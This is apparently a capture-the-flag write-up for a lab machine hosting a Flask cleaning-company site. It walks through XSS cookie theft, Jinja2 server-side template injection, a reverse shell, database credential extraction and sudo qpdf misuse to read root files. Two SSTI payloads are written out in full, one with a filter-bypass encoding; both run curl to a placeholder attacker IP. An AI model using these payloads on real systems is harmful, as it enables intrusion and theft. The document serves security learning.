# PORT SCAN
*	**20** &#8594; SSH
*	**80** &#8594;  HTTP (Apache 2.4.52)

<br><br><br>

# ENUMERATION & USER FLAG
The website is a static presentation card of a cleaning company, nothing complicated but have a login form


The only thing we can do is a POST request to `/sendMessage` through the `/quote` page


Since I have nothing to play with we can try to perform XSS on this POST request, if we are lucky enough we may recover the cookie of the operator that received the quote request. Using a traditional XSS payload should be enough
```

```

We can intercept the request and inject this payload on the service POST variable (URL encoded)



After sending the payload we can use netcat (or a simple PHP server) to intercept the request which will include the cookie



While I was doing this GoBuster retrive this list of web directories



`/dashboard` redirect us to the homepage, probably because we need to login and get the cookie to access it. I save my new captured cookie and use it anvigating directly to the dashboard page. After setting it up manually we have access to the restricted page


The dashboard permits to create some invoice and the QR code to use on the bill paper, it works in this way : 
1) Generate an Invoice (with the predefined services)
2) Generate a QR which would return you the link for the QR image
3) Use the brand new generated link to create the billing paper

The result would look like this



Cool, I have forgot to write that the webapp is using **<u>flask</u>** as web framework



This means SSTI could be possible and we can try to execute this. My favorite resource for SSTI is from [exploit notes](https://exploit-notes.hdks.org/exploit/web/framework/python/flask-jinja2-pentesting/) where I tried this simple SSTI
```
{{request.application.__globals__.__builtins__.__import__('os').popen('curl [IP]/LOL').read()}}
```

I used during the step 3 using the payload as the URL of the QR



Looks cool but the page returned with **error 500**, an internal error is pretty strange behaviour but searching online this can be related with some filtering applied to mitigate SSTI. Don't lose theh ope yet becuase the resource I linked above offer a version that should be abl to bypass filtering

```
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl [IP]/LOL")|attr("read")()}}
```

Luckly this worked smoothly!



This is cool, we can execute whatever OS command not just curl so I can host in my local server a simple reverse shell and use the SSTI bypass filtering version to fetch it and execute it



We are spawned in `/opt/app` containing the file app.py which have some hardcoded credentials for the database. 



Looking through `systemctl` service status I know that mysql is running so I login to extract all the users data inside the database **CapiClean**. We have the hash f a username which exist in the Linux machine too



We can easily retrieve the plaintext 



Easy, we can SSH in as `consuela` and get the first flag



<br><br><br>

# PRIVILEGE ESCALATION

Now with this user we can run as **root** the tool **<u>qpdf</u>**



This CLI utility which can convert a PDF to another PDF adding attachment, metadata and more. Nothing complicated but I never use this tool so some RTFM was needed to figure out how to take the last flag. After reading the official documentation I was able to extract the root flag in this way



But what happened exactly? The first flag (`--empty`) specify that the PDF input is a (dummy) empty one while the second parameter specify the output file, in this case will read a file and every line would return as filename of the results. Here, thanks to the sudo permissions we can read the root flag and **<u>the generated PDF would be an empty one named as the flag content</u>**. Same thing can be applied to the private SSH key. I looked at ohers writeup and the "intended" way was to add an attachment to the PDF (SSH private key) and extract it with **binwalk**, you can look it through the other writeups
